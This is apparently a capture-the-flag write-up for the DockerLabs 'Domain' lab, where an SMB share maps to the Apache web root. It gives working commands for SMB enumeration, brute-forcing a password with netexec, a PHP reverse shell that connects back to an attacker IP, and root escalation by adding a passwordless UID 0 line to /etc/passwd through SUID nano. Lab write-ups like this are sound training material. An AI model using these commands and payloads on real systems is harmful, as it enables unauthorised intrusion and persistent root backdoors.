










# Domain — DockerLabs

| Field      | Value              |
|------------|--------------------|
| Platform   | DockerLabs         |
| OS         | Linux              |
| Difficulty | Easy               |
| Tags       | SMB, enum4linux, netexec brute force, PHP reverse shell, SUID nano, /etc/passwd |

---

## 1. Reconnaissance

```bash
nmap -sV -sC <IP>
```



Ports open: 80 (HTTP/Apache), 139 and 445 (SMB). The SMB ports are the primary attack surface here.

---

## 2. SMB Enumeration

Used `enum4linux` to extract shares, users, and domain information via null session:

```bash
enum4linux -a <IP>
```





Users identified: `bob` (and possibly others). The `html` share was also listed — this is the Apache web root, meaning SMB write access to that share equals web server code execution.

---

## 3. Brute Force bob's Password

Used netexec (formerly crackmapexec) to brute force SMB authentication for user `bob`:

```bash
netexec smb <IP> -u bob -p /usr/share/wordlists/rockyou.txt
```





Credentials: `bob` : `star`

---

## 4. PHP Reverse Shell via SMB Upload

Connected to the `html` share with bob's credentials:

```bash
smbclient //<IP>/html -U bob
```

The share mapped to the Apache web root. Uploaded a PHP reverse shell directly into it:

```php
<?php
$ip = '<KALI-IP>';
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

```bash
# In smbclient
smb: \> put shell.php
```



Started netcat listener, then triggered execution by visiting `http://<IP>/shell.php`:

```bash
nc -lvnp 4444
```



Shell landed as `www-data`. Upgraded to a fully interactive TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
reset
# Terminal type: xterm
export TERM=xterm
export SHELL=bash
```

---

## 5. Privilege Escalation — SUID nano → /etc/passwd

Found that `www-data` could reuse bob's password to `su bob`. From bob's shell, searched for SUID binaries:

```bash
find / -perm -4000 2>/dev/null
```

`/usr/bin/nano` appeared in the results — it should never have SUID set. With SUID nano, we can edit any file on the system as root, including `/etc/passwd`.

Added a new root-level user with no password to `/etc/passwd`:

```bash
nano /etc/passwd
```

Appended this line:

```
root2::0:0::/root:/bin/bash
```





**Structure of /etc/passwd fields:** `username:password:UID:GID:comment:home:shell`

- `password` field empty (`::`) means no password required
- `UID:GID` of `0:0` grants full root privileges
- Setting these to 0 is what makes the account privileged — not the username



Switched to the new root user:

```bash
su root2
# No password needed
whoami
# root
```

---

## Key Takeaways

**SMB write access to the web root = immediate RCE.** If a user can write to an SMB share that maps to a web-served directory, uploading a PHP file is equivalent to planting a webshell.

**Upgrade your shell immediately after landing.** A raw reverse shell lacks job control and breaks many tools. The `pty.spawn` + `stty raw -echo` sequence gives a proper interactive terminal.

**SUID nano lets you edit any file as root.** With it, `/etc/passwd` becomes writable. Adding a UID 0 user with no password is a trivial and permanent backdoor.
